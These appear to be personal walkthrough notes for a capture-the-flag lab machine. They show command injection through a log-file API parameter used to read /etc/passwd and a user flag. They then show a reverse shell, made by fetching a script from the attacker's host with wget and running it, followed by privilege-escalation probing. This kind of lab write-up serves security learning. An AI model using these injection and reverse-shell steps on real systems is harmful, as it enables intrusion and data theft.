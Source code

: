 3. using _curl_ and the unsanitised parameter from the url --> we can navigate to _/logs?file=_ and RCE/RFI should be possible?

`curl 'http://10.10.11.120/api/logs?file=;cat+/etc/passwd' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjZkMmFhNTY3NGVjNjA0NWI3OGM1ZTQiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3RAdGVzdGluZzEuY29tIiwiaWF0IjoxNjUxMzIxNjMzfQ.rd_Bwv_o7eRaciaYo_9LLL-Ru1LXN_jtkmSRkTEG3ew'` worked:
![[Screenshot 2022-05-03 at 13.37.27.png]]
Checking `files=;id` it appears we have access to the user _dasith_![[Screenshot 2022-05-03 at 13.46.21.png]]
The user flag is most likely on his desktop, so after [figuring out how to bypass the spacing issue](https://portswigger.net/web-security/os-command-injection)**I used +** but only worked for some commands.. I could access the flag with `curl 'http://10.10.11.120/api/logs?file=;cat+/home/dasith/user.txt' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjZkMmFhNTY3NGVjNjA0NWI3OGM1ZTQiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3RAdGVzdGluZzEuY29tIiwiaWF0IjoxNjUxMzIxNjMzfQ.rd_Bwv_o7eRaciaYo_9LLL-Ru1LXN_jtkmSRkTEG3ew'`

# SHELL
1. ![[Screenshot 2022-05-03 at 15.07.05.png]]
2. `python3 -m http.server 8000` + `logs?file=;wget+http://10.10.14.6:8000/simple.sh` + `logs?file=;chmod+700+simple.sh`
3. `nc -nvlp 4444` + `logs?file=;./simple.sh`

![[Screenshot 2022-05-03 at 15.08.55.png]]
# [Privesc](https://useful.adindrabkin.com/hacker-mode/linux-privilege-escalation-checklist)
`python -c 'import pty; pty.spawn("/bin/bash")'`
1. `sudo -l`
2. import linPEAs
Looks like its vulerable to pwnkit, but I have done this so many times, and I know there will be other vulnerabilitis, so I kept looking. also looks like there's the screen vuln as found in Backdoor
3. `find / -perm -4000 2>/dev/null`

### potential findings
- cron job _index.js_ being started + _/usr/local/bin/pm2_
- _ldap_ files  nginx?
- _snapd_ [CVE-2019-7304]
- unknown suid binary _/opt/count_ + unexpected files in _/opt_![[Screenshot 2022-05-03 at 15.27.52.png]] 
	- code.c seemed to be showing code which tried opening (?) directories + using symlinks.
	- further _/opt/valgrind.log_ show that _/opt/count_ used when code was executed. 
**Sticky bit was set for the directory**
From what I remembered having done with sticky bits (not much) I believe it has to do with path poisoning. So I can create for instance a new _cat_ which I will save in /opt/count, and then creating another program which uses this cat - then executed as root.

Executing the binary for _/root/root.txt_ showed the 'metadata' of the root.txt file.
![[Screenshot 2022-05-03 at 15.42.54.png]]
